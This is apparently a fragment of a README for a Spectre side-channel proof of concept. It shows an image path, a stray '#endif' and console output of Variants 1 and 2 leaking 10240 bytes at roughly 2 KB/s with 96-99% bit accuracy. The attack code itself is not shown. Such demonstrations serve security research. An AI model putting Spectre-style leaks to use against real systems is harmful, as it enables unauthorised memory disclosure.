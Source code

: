 ```

#endif
```

**Variant 1:**
```
% ./spectre
[Spectre Variant 1]
miss: 152, hit: 105, threshold: 140
finding eviction set failed!
Eviction set found!
Eviction set found!
leaked 10240 byte in 4403 ms. (2325.69 bytes/s) correct: 78632 / 81920 bits (95.99 %)
setup took: 302 ms.
```

**Variant 2:**
```
% ./spectre
[Spectre Variant 2]
miss: 167, hit: 101, threshold: 150
Eviction set found!
Eviction set found!
leaked 10240 byte in 5170 ms. (1980.66 bytes/s) correct: 81502 / 81920 bits (99.49 %)
setup took: 212 ms.
```

